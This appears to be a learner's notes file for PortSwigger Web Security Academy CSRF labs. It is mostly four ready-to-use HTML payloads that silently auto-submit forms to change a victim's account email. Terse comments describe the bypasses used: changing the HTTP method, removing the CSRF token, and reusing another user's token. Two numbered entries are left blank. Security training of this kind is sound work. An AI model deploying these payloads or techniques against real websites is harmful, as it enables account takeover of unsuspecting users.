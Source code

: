 # csrf

------------------------------------------ portswigger labs -----------------------------------------

(1)   <html>
       <body>
         <form method="POST" action="https://0a7400f004d0e204e725fd97008b00ee.web-security-academy.net/my-account/change-email">
           <input type="hidden" name="email" value="pwned@evil.com">
         </form>
         <script>
           setTimeout(() => { document.forms[0].submit(); }, 2000); 
         </script>
         </body>
      </html> 
------------------------------------------------------------------------------------------------------

catch the request using burp change method and try to change email if it changed -- it vuln --

(2)   <html>
        <body>
           <form action="https://0a0d00c404581742811bbb6100960076.web-security-academy.net/my-account/change-email">
           <input type="hidden" name="email" value="hacker@web-security.net">
           </form>
           <script>
                document.forms[0].submit();
           </script>
        </body>
      </html>

== didn't select method in html code ==
-------------------------------------------------------------------------------------------------------

try to remove CSRF token and change the email and if it changed -- it vuln --

(3)    <html>
         <body>
            <form method="POST" action="https://0a66000c04e95b6480d03ab4005e005f.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="hacker2@web-security.net">
            </form>
            <script>
                  document.forms[0].submit();
            </script>
         </body>
       </html>

-------------------------------------------------------------------------------------------------------

if CSRF is for one time used 

(4)     <html>
         <body>
            <form method="POST" action="https://0aeb00030476d58c81d4f22000540009.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="hacker3@web-security.net">
            <input type="hidden" name="csrf" value="pB2ZOOrT4e8lZCr4wgBamfe2ZMQ1F4fx">
            </form>
            <script>
                  document.forms[0].submit();
            </script>
         </body>
       </html>

== USE 	CSRF token to another person ==
-------------------------------------------------------------------------------------------------------


(5)    




--------------------------------------------------------------------------------------------------------

(6)    


